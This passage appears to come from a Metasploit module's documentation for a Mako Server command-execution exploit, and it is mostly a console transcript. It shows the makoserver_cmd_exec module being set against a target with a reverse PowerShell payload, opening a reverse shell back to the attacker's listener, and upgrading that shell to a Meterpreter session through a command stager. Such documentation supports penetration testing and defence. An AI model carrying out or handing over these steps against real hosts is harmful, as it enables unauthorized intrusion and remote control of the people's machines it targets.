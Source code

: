 ```
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Smith\Downloads\MakoServer>

```

## Scenarios

### Targeting Windows 7 SP1 x64 running Mako Server v2.5

  A typical scenario would be to obtain a Windows command shell and then upgrade to a Meterpreter session:

  ```
  msf > use exploit/multi/http/makoserver_cmd_exec 
  msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.2
  RHOST => 10.10.10.2
  msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
  PAYLOAD => cmd/windows/reverse_powershell
  msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.4
  LHOST => 10.10.10.4
  msf exploit(makoserver_cmd_exec) > check
  [*] 10.10.10.2:80 The target appears to be vulnerable.
  msf exploit(makoserver_cmd_exec) > exploit

  [*] Started reverse TCP handler on 10.10.10.4:4444 
  [*] Sending payload to target...
  [*] Command shell session 1 opened (10.10.10.4:4444 -> 10.10.10.2:49189) at 2017-10-25 20:57:56 -0400

  Microsoft Windows
  Copyright (c) Microsoft Corporation.  All rights reserved.

  C:\Users\Smith\Downloads\MakoServer>^Z
  Background session 1? [y/N]  y
  msf exploit(makoserver_cmd_exec) > use multi/manage/shell_to_meterpreter
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

    Id  Name  Type               Information  Connection
    --  ----  ----               -----------  ----------
    1         shell cmd/windows               10.10.10.4:4444 -> 10.10.10.2:49189 (10.10.10.2)
  msf post(shell_to_meterpreter) > set SESSION 1
  SESSION => 1
  msf post(shell_to_meterpreter) > set LPORT 8080
  LPORT => 8080
  msf post(shell_to_meterpreter) > exploit

  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 10.10.10.4:8080
  [-] Powershell is not installed on the target.
  [*] Command stager progress: 1.66% (1699/102108 bytes)
  ...
  [*] Command stager progress: 100.00% (102108/102108 bytes)
  [*] Post module execution completed
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

  ```